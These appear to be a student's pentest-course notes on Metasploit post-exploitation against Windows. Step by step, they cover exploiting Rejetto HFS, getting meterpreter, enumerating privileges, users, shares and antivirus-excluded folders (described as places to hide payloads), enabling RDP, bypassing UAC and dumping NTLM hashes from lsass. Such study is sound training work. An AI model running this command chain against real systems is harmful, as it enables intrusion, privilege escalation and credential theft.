 - MSF provides us with post exploitation modules 
![[Pasted image 20230828081111.png]]

#### the basics - post exploitation modules 

1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost` ip 
4) `db_nmap -sS -sV -O ip `
5) HttpFileServer httpd 2.3 is vulnerable: ` search rejetto ` and `use exploit/windows/http/rejetto_hfs_exec `
6) Meterpreter session 
	1) `sysinfo` 
	2) `getuid`
	3) `help` a meterpreter session on windows gives you more options
	4) `getsystem` can be used to elevate privileges 
	5) `show_mount` will display drives 
	6) `ps` 
	7) `migrate 2212` (you can migrate to upgrade your meterpreter session to x64 )
	8) `cd C:\\` and  `dir` 
7) upgrade the architecture:  x86 Meterpreter sessions are used on 32-bit systems and offer limited access to system resources, while x64 Meterpreter sessions are used on 64-bit systems and provide greater access to resources and system components.  
	- `search migrate`
	- `use post/windows/manage/migrate` (create new process and migrate to it)
	- `set session 1 `


**Target and Payload Mismatch:** The architecture of the target system (x64) doesn't match the architecture of the Meterpreter payload (x86/windows). This means that the payload you used to establish the Meterpreter session was designed for 32-bit Windows systems (x86), but it was executed on a 64-bit Windows system (x64). This can lead to compatibility issues because 32-bit payloads might not work properly or have limited functionality on 64-bit systems.



##### post exploitation modules for windows: 
- `post/windows/gather/win_privs` will enumerate the priviliges of current user we have access to.  
	1) set session  

- `post/windows/gather/enum_logged_on_users` allows us to see what users are currently logged on 
	1) set session  

- `post/windows/gather/checkvm` will tell you if the target system is a virtual machine. If you find out that you are on a virtual machine than you can look into exploit modules to break out of the virtual machine and gain access to host operating system that is hosting the virtual machine. 
	- set session

- `post/windows/gather/enum_applications` will tell us what programs are installed on target system (you can check if the applications are vulnerable - if they are you can use that to elevate your priviliges )

- `loot`  will show you were the results of the modules run is stored 

- `post/windows/gather/enum_av_ecluded`  what folders are not scanned by anti-virus. This is handy because in these folders you can store your exploit code and payloads that you want to transfer to the target and execute on disk without being caught 

-  `post/windows/gather/enum_computers` enumerate computers that are part of the domain that the target is also part of

-  `post/windows/gather/enum_patces`  enumerate installed patches on target system
	- if this does not work: go into session -> `shell` this will give you command prompt -> `systeminfo`
	
- `post/windows/gather/enum_shares` enumerate shares 


-  `post/windows/manage/enabled_rdp` enable rdp on target - it will tell you if rdp is already enabled. 


### Windows Privilege Escalations: Bypassing UAC 

- UAC is a Windows security feature introduced in Windows vista that is used to prevent unauthorized changes from being made to the operating system 
![[Pasted image 20230828134513.png]]
- UAC is used to ensure that changes to the operating system require approval from administrator.
- We can utilize the "windows Escalate UAC Protection Bypass (in Memory Injection)" module to bypass UAC by utilizing the trusted publisher certificate through process injection. it will spawn a second shell that has the UAC flag turned off 
- need 64 bit meterpreter session (set payload)
- We are going to bypass UAC using the Metasploit local exploit module. “This module will bypass Windows UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off. This module uses the Reflective DLL Injection technique to drop only the DLL payload binary instead of three separate binaries in the standard technique. However, it requires the correct architecture to be selected, (use x64 for SYSWOW64 systems also). If specifying EXE::Custom your DLL should call ExitProcess() after starting your payload in a separate process.

1) `service postgresql start && msfconsole` 
2) create new `workspace` 
3) `setg rhost` ip 
4) `db_nmap -sS -sV -O ip 
5) HttpFileServer httpd 2.3 is vulnerable: ` search rejetto ` and `use exploit/windows/http/rejetto_hfs_exec `
	1) set the payload to the 64-bit meterpreter payload because that is what will be required in order to successfully bypass UAC and elevate our priviliges: `set payload windows/x64/meterpreter/reverse_tcp`
6) `sysinfo`  `getuid` (admin not the same as administrator)
7) Try elevate priviliges: `getsystem`
	1) migrate to another process such as explorer.exe) and try the above command again 
8) what are the priviliges assigned to current user: `getprivs`
9) find out to which group users belongs: 
	1) open shell session: `shell` 
	2) list all user accounts that exist on the local computer: ` net users` 
	3) enumerate users part of group administrators: `net localgroup administrators `
	            if admin is part of administrator group than that means that de admin account can make changes to operating system and do administrative tasks. 
	4) terminate this shell 
10) put meterpreter session in the background
11) bypass UAC:
	1) `use exploit/windows/local/bypassuac_injection `
	2) `set payload windows/x64/meterpreter/reverse_tcp` 
	3) `set TARGET 1` 
	4)  set session` id 
	5) `set` `lport` 
	6) when error:` set TARGET Windows x64 `
	7) `getuid` when you see your privileges are not elevated (you till admin) than use command: `getsystem`. The `getsystem` command in the beginning did not work due to UAC but now that UAC is disabled the command `getsystem` will be able to elevate your priviliges. 
11) migrate to Lsass.exe process 
12) `hashdump` to get the hashes (ntlm hash is 4th field)

### Windows Privilege Escalation: Token Impersonation with Incognito 

